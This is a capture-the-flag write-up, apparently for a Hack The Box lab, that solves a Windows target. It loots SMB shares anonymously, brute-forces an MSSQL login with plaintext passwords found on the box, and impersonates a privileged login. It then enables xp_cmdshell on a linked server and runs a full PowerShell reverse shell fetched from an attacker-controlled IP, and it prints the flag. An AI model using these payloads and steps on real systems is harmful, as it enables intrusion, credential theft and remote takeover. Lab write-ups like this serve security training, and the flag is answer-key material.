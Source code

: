 The third server is another internal server used to manage files and working material, such as forms. In addition, a database is used on the server, the purpose of which we do not know.

## Question
1. What file can you retrieve that belongs to the user "simon"? (Format: filename.txt)
2. Enumerate the target and find a password for the user Fiona. What is her password?
3. Once logged in, what other user can we compromise to gain admin privileges?
4. Submit the contents of the flag.txt file on the Administrator Desktop.

## Solutions

```shell
> nmap -sC -sV 10.129.200.36
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019
3389/tcp open  ms-wbt-server Microsoft Terminal **Services**
 

> smbclient -N -L //10.129.200.36

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	Home            Disk
	IPC$            IPC       Remote IPC
> smbclient -N //10.129.200.36/HOME
smb> recurse on
smb> prompt off
smb> mget *

We can find 3 users and their files in the IT directory we just get. 

File of Simon: random.txt
```

```shell
We can now see in the Fiona s directory:
> cat creds.txt
Windows Creds

kAkd03SA@#!
48Ns72!bns74@S84NNNSl
SecurePassword!
Password123!
SecureLocationforPasswordsd123!!

Let's brute force her account.
> nxc mssql 10.129.200.36 -u fiona -p fiona.txt
[+] WIN-HARD\fiona:48Ns72!bns74@S84NNNSl

Connect to mssql server:
> mssqlclient.py -windows-auth fiona:'48Ns72!bns74@S84NNNSl'@10.129.200.36


Lets see who we can impersonate:
1> SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
john
simon

Impersonate john user in mssql DB
mssql> EXECUTE AS LOGIN = 'john'
mssql> SELECT SYSTEM_USER
mssql> SELECT IS_SRVROLEMEMBER('sysadmin')


Let's try to execute queries on linked server:

mssql> SELECT srvname, isremote FROM sysserver
srvname                 isremote
---------------------   --------
WINSRV02\SQLEXPRESS            1

LOCAL.TEST.LINKED.SRV          0


ENABLE COMMAND EXECUTION (WORKED FOR JOHN BUT NOT SIMON)
mssql> EXECUTE('EXEC sp_configure ''show advanced options'', 1; RECONFIGURE; EXEC sp_configure ''xp_cmdshell'', 1; RECONFIGURE; EXEC xp_cmdshell ''whoami''') AT [LOCAL.TEST.LINKED.SRV];

We can now execute a reverse shell:
1. Save reverse shell in shell.ps1:
   > cat shell.ps1
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.191',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

2. Set up nc listener on port 9001 and make this command on mssql:
> EXECUTE('xp_cmdshell ''echo IEX (New-Object Net.WebClient).DownloadString("http://10.10.14.191:8000/shell.ps1") | powershell -noprofile''') AT [LOCAL.TEST.LINKED.SRV];


We get a reverse shell !

HTB{46u$!n9_l!nk3d_$3rv3r$}
```